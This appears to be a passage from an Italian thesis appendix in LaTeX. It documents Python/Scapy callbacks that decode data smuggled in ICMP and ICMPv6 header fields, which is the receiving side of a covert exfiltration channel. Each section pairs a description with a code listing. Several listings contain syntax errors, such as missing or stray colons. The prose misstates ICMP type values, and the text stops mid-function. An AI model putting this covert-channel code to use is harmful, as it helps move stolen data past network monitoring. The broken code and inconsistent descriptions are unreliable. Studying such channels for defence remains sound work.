Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IP} e 
\textbf{ICMP} la cui tipologia dovrà essere \textit{ParamProblem} (indicata con il valore 12). 
Inoltre, nel protocollo \textit{ICMP}, dovrà essere presente una datagram contenente i livelli \textbf{IPerror} e \textbf{ICMPerror}; 
infatti la maggior parte delle informazioni saranno contenute in questi due strati. 
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
Tramite questa tipologia, i dati saranno contenuti nei seguenti campi:  
\begin{itemize} 
    \item Nel campo \textbf{ptr} e \textbf{unused} del protocollo \textbf{ICMP} (tipologia \textit{ParamProblem})
    \item Nel datagram. In particolare nel campo \textbf{len} del protocollo \textbf{IPError} e nel campo \textbf{id} del protocollo \textbf{ICMP} (tipologia \textit{Echo Request}). 
\end{itemize} 
Il campo \textit{ptr} ha una dimensione di \textbf{1 bytes} mentreil campo \textit{unused} di \textbf{2 bytes}. 
In aggiunta nel datagram abbiamo il campo \textit{len}, così come \textit{id}, di capacità \textbf{2 bytes} ciascuno. 
In totale dal pacchetto verranno ricavati (e quindi decodificati decodificati) \textbf{7 bytes}. 
\vspace{1ex} \newline
Il metodo termina quando nel datagram ricevuti, si ha che il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
\newline 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v4_parameter_problem}, emphstyle=\color{red} 
    ,emph={[2]ptr, unused, len, id, paket},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn, data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v4_parameter_problem(event_pktconn, data):
    TYPE_PARAMETER_PROBLEM=12 
    def callback(paket):  
        nonlocal event_pktconn, data
        if paket.haslayer(IP) and paket.haslayer(ICMP):   
            if paket[ICMP].haslayer(IPerror) & paket[ICMP].haslayer(ICMPerror): 
                if paket[ICMP][ICMPerror].id==0 & paket[ICMP][ICMPerror].seq==1: 
                    com.set_threading_Event(event_pktconn) 
                    return 
                data.append(paket[ICMP].ptr.to_bytes(1,"big").decode())
                data.append(paket[ICMP].unused.to_bytes(2,"big").decode())  
                data.append(paket[ICMP][IPerror].len.to_bytes(2,"big").decode())  
                data.append(paket[ICMP][ICMPerror].id.to_bytes(2,"big").decode()) 
            elif paket[ICMP].type==12 and not paket[ICMP].haslayer(IPerror): 
                print(f"Packet {paket.summary()}")
                com.set_threading_Event(event_pktconn)
                return
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v4\_parameter\_problem}} 
\label{script:appendice:attacksingleton:waitData:callback:v4_parameter_problem} 

\subsubsection*{Versione che usa il protocollo IPv6}
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IPv6} e 
\textbf{ICMPv6} la cui tipologia dovrà essere \textit{ParamProblem}.
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
In questo caso, i dati saranno contenuti nei seguenti campi:  
\begin{itemize} 
    \item Nel campo \textbf{ptr} del protocollo \textbf{ICMPv6} (tipologia \textit{ParamProblem})
    \item Nel datagram. In particolare nel campo \textbf{plen} del protocollo \textbf{IPv6Error} e nel campo \textbf{id} del protocollo \textbf{ICMPv6} (tipologia \textit{Echo Request}). 
\end{itemize} 
Il campo \textit{ptr} ha una dimensione di \textbf{4 bytes} mentre dal campo \textit{plen}, come \textit{id}, verranno estratti \textbf{2 bytes}. 
In totale dal pacchetto verranno ricavati (e decodificati) \textbf{8 bytes}. 
\vspace{1ex} \newline
Il metodo termina quando nel datagram ricevuti, si ha che il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
Oppure se il campo \textbf{ptr} (del prtotocollo \textit{ICMPv6ParamProblem}) è pari a \textbf{0xffff}. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v6_parameter_problem}, emphstyle=\color{red} 
    ,emph={[2]field, layer},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn, data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v6_parameter_problem(event_pktconn, data): 
    def callback(packet): 
        field=None 
        if (layer:=packet.getlayer("IPv6")) is not None:  
            if (layer:=layer.getlayer("ICMPv6ParamProblem")) is not None: 
                field=layer.getfieldval("ptr")
                if field is not None and field!=0xffffffff: 
                    data.append(field.to_bytes(4,"big").decode()) 
                elif field is not None and field==0xffffffff: 
                    com.set_threading_Event(event_pktconn)
                    return 
            if (layer:=layer.getlayer("IPerror6")) is not None: 
                if (field:=layer.getfieldval("plen")) is not None: 
                    data.append(field.to_bytes(2,"big").decode())
            
            if layer.getlayer("ICMPv6EchoReply") is None: 
                layer=layer.getlayer("ICMPv6EchoRequest")      
            else: layer=layer.getlayer("ICMPv6EchoReply"): 
            if layer is not None: 
                if (field:=layer.getfieldval("id")) is not None: 
                    data.append(field.to_bytes(2,"big").decode()) 
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v6\_parameter\_problem}} 
\label{script:appendice:attacksingleton:waitData:callback:ipv6:parameter_problem} 

\subsubsection{Callback del Source Quench} 
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IP} e 
\textbf{ICMP} la cui tipologia dovrà essere \textit{SourceQuench} (indicata con il valore 12). 
Inoltre, nel protocollo \textit{ICMP}, dovrà essere presente una datagram contenente i livelli \textbf{IPerror} e \textbf{ICMPerror}; 
infatti la maggior parte delle informazioni saranno contenute in questi due strati. 
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
Tramite questa tipologia, i dati saranno contenuti nei seguenti campi:  
\begin{itemize} 
    \item Nel campo \textbf{unused} del protocollo \textbf{ICMP} (tipologia \textit{SourceQuench})
    \item Nel datagram. In particolare nel campo \textbf{len} del protocollo \textbf{IPError} e nel campo \textbf{id} del protocollo \textbf{ICMP} (tipologia \textit{Echo Request}). 
\end{itemize} 
Il campo \textit{unused} ha una dimensione di \textbf{4 bytes} mentre nel datagram il campo \textit{len}, così come \textit{id}, contengono \textbf{2 bytes} ciascuno. 
In totale dal pacchetto si ricaveranno \textbf{8 bytes}. 
\vspace{1ex} \newline
Il metodo termina quando nel datagram ricevuti, si ha che il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
\newline 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v4_source_quench}, emphstyle=\color{red} 
    ,emph={[2]pket, unused, len, id},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn,data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v4_source_quench(event_pktconn,data ):
    TYPE_SOURCE_QUENCH=4  
    def callback(pket): 
        if pket.haslayer(IP) and pket.haslayer(ICMP):  
            if pket[ICMP].haslayer(IPerror) & pket[ICMP].haslayer(ICMPerror): 
                data.append(pket[ICMP].unused.to_bytes(4,"big").decode())  
                data.append(pket[ICMP][IPerror].len.to_bytes(2,"big").decode())  
                data.append(pket[ICMP][ICMPerror].id .to_bytes(2,"big").decode()) 
                if pket[ICMP][ICMPerror].id==0 and pket[ICMP][ICMPerror].seq==1: 
                    com.set_threading_Event(event_pktconn)
                    return
            elif pket[ICMP].type==4 and not pket[ICMP].haslayer(IPerror): 
                com.set_threading_Event(event_pktconn)
                return
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v4\_source\_quench}} 
\label{script:appendice:attacksingleton:waitData:callback:v4_source_quench} 

\subsubsection{Callback del Redirect Message} 
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IP} e 
\textbf{ICMP} la cui tipologia dovrà essere \textit{Redirect} (indicata con il valore 12). 
Inoltre, nel protocollo \textit{ICMP}, dovrà essere presente una datagram contenente i livelli \textbf{IPerror} e \textbf{ICMPerror}; 
infatti la maggior parte delle informazioni saranno contenute in questi due strati. 
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
Tramite questa tipologia, i dati saranno contenuti nei seguenti campi:  
\begin{itemize}  
    \item Nel datagram. In particolare nel campo \textbf{len} del protocollo \textbf{IPError} e nel campo \textbf{id} del protocollo \textbf{ICMP} (tipologia \textit{Echo Request}). 
\end{itemize} 
Nel datagram il campo \textit{len}, così come \textit{id}, hanno una capacità di \textbf{2 bytes} ciascuno. 
Quindi il pacchetto esfiltrerà al massimo \textbf{4 bytes}. 
\vspace{1ex} \newline
Il metodo termina quando nel datagram ricevuti, si ha che il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
\newline 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v4_redirect_message}, emphstyle=\color{red} 
    ,emph={[2]packet, len, id},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn,data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v4_redirect_message(event_pktconn,data ):
    TYPE_REDIRECT=5
    def callback(packet): 
        if packet.haslayer(IP) and packet.haslayer(ICMP) :  
            if packet[ICMP].haslayer(IPerror) & packet[ICMP].haslayer(ICMPerror): 
                icmp_ip_length=packet[ICMP][IPerror].len
                data.append(icmp_ip_length.to_bytes(2,"big").decode()) 

                icmp_icmp_id=packet[ICMP][ICMPerror].id 
                data.append(icmp_icmp_id.to_bytes(2,"big").decode()) 
                checkID=packet[ICMP][ICMPerror].id==0 
                checkSEQ=packet[ICMP][ICMPerror].seq==1
                if checkID and checkSEQ: 
                    com.set_threading_Event(event_pktconn)
                    return
            elif packet[ICMP].type==5 and not packet[ICMP].haslayer(IPerror): 
                com.set_threading_Event(event_pktconn)
                return
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v4\_redirect\_message}} 
\label{script:appendice:attacksingleton:waitData:callback:v4_redirect_message} 

\subsubsection{Callback del Timestamp Request} 
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IP} e 
\textbf{ICMP} la cui tipologia dovrà essere \textit{Redirect} (indicata con il valore 12). 
Inoltre, nel protocollo \textit{ICMP}, dovrà essere presente una datagram contenente i livelli \textbf{IPerror} e \textbf{ICMPerror}; 
infatti la maggior parte delle informazioni saranno contenute in questi due strati. 
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
Tramite \textit{ICMPTimestamp} i campi utilizzati sono:  
\begin{itemize}  
    \item Il campo \textbf{id} che può contenere \textbf{2 bytes} 
    \item I campi \textbf{ts\_ori}, \textbf{ts\_rx}, \textbf{ts\_tx} ciascuno di dimensione \textbf{1 byte}
    \item Nel protocollo \textit{ICMP} tramite . In particolare nel campo \textbf{len} del protocollo \textbf{IPError} e nel campo \textbf{id} del protocollo \textbf{ICMP} (tipologia \textit{Echo Request}). 
\end{itemize}  
In totale il pacchetto potra trasportare \textbf{5 bytes} di dati. 
\vspace{1ex} \newline
Il metodo termina quando nel datagram ricevuti, si ha che il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
\newline 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v4_timestamp_request}, emphstyle=\color{red} 
    ,emph={[2]packet, byte1, byte2, icmp_ts_ori, icmp_ts_rx, icmp_ts_tx},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn,data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v4_timestamp_request(event_pktconn,data ):
    def callback(packet): 
        if packet.haslayer(IP) and packet.haslayer(ICMP):  
            if packet[ICMP].id==0 and packet[ICMP].seq==1: 
                com.set_threading_Event(event_pktconn)
                return
            icmp_id=packet[ICMP].id
            byte1 = (icmp_id >> 8) & 0xFF 
            byte2 = icmp_id & 0xFF  
            data.extend([chr(byte1),chr(byte2)]) 
            
            icmp_ts_ori=str(packet[ICMP].ts_ori)[-3:]  
            icmp_ts_rx=str(packet[ICMP].ts_rx)[-3:]  
            icmp_ts_tx=str(packet[ICMP].ts_tx)[-3:] 

            data.extend([
                 chr(int(icmp_ts_ori))
                ,chr(int(icmp_ts_rx))
                ,chr(int(icmp_ts_tx))
            ]) 
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v4\_timestamp\_request}} 
\label{script:appendice:attacksingleton:waitData:callback:v4_timestamp_request} 

\subsubsection{Callback del Information Request} 
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IP} e \textbf{ICMP} la cui tipologia dovrà essere \textit{Echo Request} o \textit{Echo Reply}. 
Verificata la cosa, si procede ad estrarre i dati contenuti nel campo ID del protocollo ICMPv6. 
\vspace{2ex} \newline
Il processo di decodifica è l'inverso di quello usato in [Code TO-DO-AAAAAA inserire ref per send info request]; 
si ha che il campo ID è lungo due byte e al suo interno sono stati codificati due caratteri: 
\begin{itemize}
    \item Per ricavare il primo byte si shifta l'ID di 8 bit a destra e si applica poi una maschera. 
    \item Per ricavare invece il secondo byte, si applica la maschera al valore contenuto nel campo. 
\end{itemize}
Dopodichè ciascun byte verrà convertito in un carattere e aggiunto alla lista passata in input.  
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_ipv4_information_request}, emphstyle=\color{red} 
    ,emph={[2]packet, byte1, byte2},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn,data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_ipv4_information_request(event_pktconn,data ):
    def callback(packet): 
        if packet.haslayer(IP) and packet.haslayer(ICMP):   
            if packet[ICMP].id==0 and packet[ICMP].seq==1: 
                com.set_threading_Event(event_pktconn)
                return
            icmp_id=packet[ICMP].id
            byte1 = (icmp_id >> 8) & 0xFF 
            byte2 = icmp_id & 0xFF  
            data.extend([chr(byte1),chr(byte2)]) 
            print(f"Callback received: {byte1} / {byte2}")
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v4\_information\_request}} 
\label{script:appendice:attacksingleton:waitData:callback:v4_information_request} 

\subsubsection*{Versione che usa il protocollo IPv6}
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IPv6} e \textbf{ICMPv6} la cui tipologia dovrà essere \textit{Echo Request} o \textit{Echo Reply}. 
Verificata la cosa, si procede ad estrarre i dati contenuti nel campo ID del protocollo ICMPv6. 
\vspace{2ex} \newline
Il processo di decodifica è l'inverso di quello usato in [Code TO-DO-AAAAAA inserire ref per send info request]; 
si ha che il campo ID è lungo due byte e al suo interno sono stati codificati due caratteri: 
\begin{itemize}
    \item Per ricavare il primo byte si shifta l'ID di 8 bit a destra e si applica poi una maschera. 
    \item Per ricavare invece il secondo byte, si applica la maschera al valore contenuto nel campo. 
\end{itemize}
Dopodichè ciascun byte verrà convertito in un carattere e aggiunto alla lista passata in input.  
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v6_information_request}, emphstyle=\color{red} 
    ,emph={[2]pket, byte1, byte2},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn, data, icmp_echo_type}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v6_information_request(event_pktconn, data):
    def callback(pket): 
        check=pket.haslayer(ICMPv6EchoReply) or pket.haslayer(ICMPv6EchoRequest)
        if pket.haslayer(IPv6) and check:  
            icmp_echo_type=(
                "ICMPv6EchoReply" if pket.haslayer(ICMPv6EchoReply) 
                else "ICMPv6EchoRequest" if pket.haslayer(ICMPv6EchoRequest) 
                else None
            ) 
            if pket[icmp_echo_type].id==0 and pket[icmp_echo_type].seq==1: 
                com.set_threading_Event(event_pktconn)
                return
            icmp_id=pket[icmp_echo_type].id
            byte1 = (icmp_id >> 8) & 0xFF 
            byte2 = icmp_id & 0xFF 
            data.extend([chr(byte1),chr(byte2)]) 
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v6\_information\_request}} 
\label{script:appendice:attacksingleton:waitData:callback:information_request}  

\subsubsection{Callback del Time Exceeded} 
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IP} e 
\textbf{ICMP} la cui tipologia dovrà essere \textit{TimeExceeded}.
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
In questo caso, i dati saranno contenuti nei seguenti campi:  
\begin{itemize} 
    \item Nel campo \textbf{unused} del protocollo \textit{ICMP}. In esso sarà possibile nascondere \textbf{2 bytes}. 
    \item Nel datagram invece nel campo \textbf{len} del protocollo \textit{IPError} e nel campo \textbf{id} del protocollo \textit{ICMP} (tipologia \textit{Echo Request}). 
    Entrambi avranno una capacità di \textbf{2 bytes}.
\end{itemize}  
In totale il pacchetto potrà esfiltrare \textbf{6 bytes}. 
Che una volta ricevuti, e decodificati, verranno aggiunti alla lista passata in input. 
\vspace{1ex} \newline
Il metodo termina quando nel datagram ricevuti, si ha che il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
Oppure se il campo \textbf{plen} è pari a \textbf{0xffff}. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v4_time_exceeded}, emphstyle=\color{red} 
    ,emph={[2]pket, unused, len, id},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn,data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v4_time_exceeded(event_pktconn,data ):
    TYPE_TIME_EXCEEDED=11  
    def callback(pket): 
        if pket.haslayer(IP) and pket.haslayer(ICMP):  
            if pket[ICMP].haslayer(IPerror) and pket[ICMP].haslayer(ICMPerror): 
                data.append(pket[ICMP].unused.to_bytes(2,"big").decode())  
                data.append(pket[ICMP][IPerror].len.to_bytes(2,"big").decode())  
                data.append(pket[ICMP][ICMPerror].id.to_bytes(2,"big").decode()) 
                if pket[ICMP][ICMPerror].id==0 and pket[ICMP][ICMPerror].seq==1: 
                    com.set_threading_Event(event_pktconn)
                    return
            elif pket[ICMP].type==11 and not pket[ICMP].haslayer(IPerror): 
                com.set_threading_Event(event_pktconn)
                return
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v4\_time\_exceeded}} 
\label{script:appendice:attacksingleton:waitData:callback:v4_time_exceeded} 

\subsubsection*{Versione che usa il protocollo IPv6}
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IPv6} e 
\textbf{ICMPv6} la cui tipologia dovrà essere \textit{TimeExceeded}.
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
In questo caso, i dati saranno contenuti nei seguenti campi:  
\begin{itemize} 
    \item Nel datagram. In particolare nel campo \textbf{plen} del protocollo \textbf{IPv6Error} e nel campo \textbf{id} del protocollo \textbf{ICMPv6} (tipologia \textit{Echo Request}). 
\end{itemize} 
In \textit{plen}, come \textit{id}, saranno presenti \textbf{2 bytes}. 
In totale il pacchetto ha una capacità di \textbf{4 bytes}. 
Che una volta decodificati verranno aggiunti alla lista passata in input. 
\vspace{1ex} \newline
Il metodo termina quando nel datagram ricevuti, si ha che il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
Oppure se il campo \textbf{plen} è pari a \textbf{0xffff}. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v6_time_exceeded}, emphstyle=\color{red} 
    ,emph={[2]field, layer},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn,data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v6_time_exceeded(event_pktconn,data ):
    TYPE_TIME_EXCEEDED=3  
    def callback(packet): 
        field=None 
        if (layer:=packet.getlayer("IPv6")) is not None:  
            if (layer:=layer.getlayer("IPerror6")) is not None: 
                field=layer.getfieldval("plen")
                if field is not None and field!=0xffff: 
                    data.append(field.to_bytes(2,"big").decode())
                elif field is not None and field==0xffff: 
                    com.set_threading_Event(event_pktconn)
                    return
            if layer.getlayer("ICMPv6EchoReply") is None 
                layer= layer.getlayer("ICMPv6EchoRequest")  
            else: 
                layer=layer.getlayer("ICMPv6EchoReply")   
            if not (layer.getfieldval("id")==0 and layer.getfieldval("seq")!=0): 
                data.append(field.to_bytes(2,"big").decode()) 
            elif layer.getfieldval("id")==0 and layer.getfieldval("seq")==1: 
                com.set_threading_Event(event_pktconn)
                return 
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v6\_time\_exceeded}} 
\label{script:appendice:attacksingleton:waitData:callback:v6_time_exceeded} 

\subsubsection{Callback del Destination Unreachable} 
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IPv6} e \textbf{ICMPv6} la cui tipologia dovrà essere \textit{DestUnreach}.
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
Qui i dati sono contenuti nel campo \textbf{plen} del datagram \textbf{IPv6Error} e nel campo \textbf{id} del protocollo \textbf{ICMPv6} (tipologia \textit{Echo Request}). 
\begin{itemize} 
    \item Nel campo \textbf{unused} del protocollo \textit{ICMP}. In esso sarà possibile nascondere \textbf{4 bytes}. 
    \item Nel datagram invece nel campo \textbf{len} del protocollo \textit{IPError} e nel campo \textbf{id} del protocollo \textit{ICMP} (tipologia \textit{Echo Request}). 
    Entrambi avranno una capacità di \textbf{2 bytes}.
\end{itemize}  
In totale il pacchetto potrà esfiltrare \textbf{8 bytes}. 
Che una volta ricevuti, e decodificati, verranno aggiunti alla lista passata in input. 
\vspace{1ex} \newline
Il metodo termina quando si riceve un datagram nel cui protocollo \textbf{ICMPv6} il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
Oppure un datagram nel cui protcollo \textbf{IPv6Error} il campo \textbf{plen} è pari a \textbf{0xffff}. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v4_destination_unreachable}, emphstyle=\color{red} 
    ,emph={[2]pket, unused, len, id},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn,data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v4_destination_unreachable(event_pktconn,data ):
    TYPE_DESTINATION_UNREACHABLE=3 
    def callback(pket): 
        if pket.haslayer(IP) and pket.haslayer(ICMP):  
            if pket[ICMP].haslayer(IPerror) and pket[ICMP].haslayer(ICMPerror): 
                data.append(pket[ICMP].unused.decode())  
                data.append(pket[ICMP][IPerror].len.to_bytes(2,"big").decode())  
                data.append(pket[ICMP][ICMPerror].id.to_bytes(2,"big").decode()) 
                if pket[ICMP][ICMPerror].id==0 and pket[ICMP][ICMPerror].seq==1: 
                    com.set_threading_Event(event_pktconn)
                    return
            elif pket[ICMP].type==3 and not pket[ICMP].haslayer(IPerror): 
                com.set_threading_Event(event_pktconn)
                return
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v4\_destination\_unreachable}} 
\label{script:appendice:attacksingleton:waitData:callback:v4_destination_unreachable}  

\subsubsection*{Versione che usa il protocollo IPv6}
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IPv6} e \textbf{ICMPv6} la cui tipologia dovrà essere \textit{DestUnreach}.
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
Qui i dati sono contenuti nel campo \textbf{plen} del datagram \textbf{IPv6Error} e nel campo \textbf{id} del protocollo \textbf{ICMPv6} (tipologia \textit{Echo Request}). 
\begin{itemize}
    \item Nel campo \textit{plen}, come in \textit{id} verranno estratti \textbf{2 bytes} che verranno poi decodificati.
\end{itemize} 
Il metodo termina quando si riceve un datagram nel cui protocollo \textbf{ICMPv6} il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
Oppure un datagram nel cui protcollo \textbf{IPv6Error} il campo \textbf{plen} è pari a \textbf{0xffff}. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v6_destination_unreachable}, emphstyle=\color{red} 
    ,emph={[2]field, layer},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn, data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v6_destination_unreachable(event_pktconn, data ):
    TYPE_DESTINATION_UNREACHABLE=3 
    def callback(packet): 
        field=None 
        if (layer:=packet.getlayer("IPv6")) is not None:  
            if (layer:=layer.getlayer("ICMPv6DestUnreach")) is None: 
                return
            if (layer:=layer.getlayer("IPerror6")) is not None: 
                field=layer.getfieldval("plen")
                if field is not None and field!=0xffff: 
                    data.append(field.to_bytes(2,"big").decode())
                elif field is not None and field==0xffff: 
                    com.set_threading_Event(event_pktconn)
                    return
            if layer.getlayer("ICMPv6EchoReply") is None 
                layer= layer.getlayer("ICMPv6EchoRequest")  
            else: 
                layer=layer.getlayer("ICMPv6EchoReply") 
            if layer.getfieldval("id")==0 and layer.getfieldval("seq")==1: 
                com.set_threading_Event(event_pktconn)
                return 
            elif not(layer.getfieldval("id")==0 and layer.getfieldval("seq")==1): 
                data.append(field.to_bytes(2,"big").decode()) 
            else: print("Caso non considetrato")
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v6\_destination\_unreachable}} 
\label{script:appendice:attacksingleton:waitData:callback:v6_destination_unreachable}  

\subsubsection{Callback del Packet Too Big}
Il metodo richiede in input un threading Event e una lista su cui verranno memorizzati i dati ricavati dal pacchetto. 
Dopodichè procede a controllare se nel pacchetto sono presenti il protocollo \textbf{IPv6} e \textbf{ICMPv6} la cui tipologia dovrà essere \textit{PacketTooBig}.
Verificata la cosa, si procede ad estrarre i dati contenuti. 
\vspace{2ex} \newline
Qui i dati vengono nascosti in questo modo:  
\begin{itemize}
    \item Nel campo \textbf{mtu} del protocollo \textbf{ICMPv6}
    \item Nel datagram. In particolare nel campo \textbf{plen} del protocollo \textbf{IPv6Error} e nel campo \textbf{id} del protocollo \textbf{ICMPv6} (tipologia \textit{Echo Request}). 
\end{itemize} 
In \textit{mtu} saranno presenti \textbf{4 bytes} mentre \textit{plen}, come \textit{id}, hanno una capacità di \textbf{2 bytes}. 
In totale verranno decodificati \textbf{8 bytes}. 
\vspace{1ex} \newline
Il metodo termina quando nel datagram ricevuti, si ha che il campo \textbf{id} è pari a \textbf{0} e il campo \textbf{seq} è pari a \textbf{1}. 
Oppure se il campo \textbf{plen} è pari a \textbf{0xffff}. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v6_packet_to_big}, emphstyle=\color{red} 
    ,emph={[2]layer, field},emphstyle={[2]\color{blue}} 
    ,emph={[3]event_pktconn, data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v6_packet_to_big(event_pktconn, data):
    TYPE_PKT_BIG= 2
    def callback(packet): 
        field=None 
        if (layer:=packet.getlayer("IPv6")) is not None:  
            if (layer:=layer.getlayer("ICMPv6PacketTooBig")) is not None: 
                if (field:=layer.getfieldval("mtu")) is not None: 
                    data.append(field.to_bytes(4,"big").decode()) 
            if (layer:=layer.getlayer("IPerror6")) is not None: 
                field=layer.getfieldval("plen")
                if field is not None and field!=0xffff: 
                    data.append(field.to_bytes(2,"big").decode())
                elif field is not None and field==0xffff: 
                    com.set_threading_Event(event_pktconn)
                    return
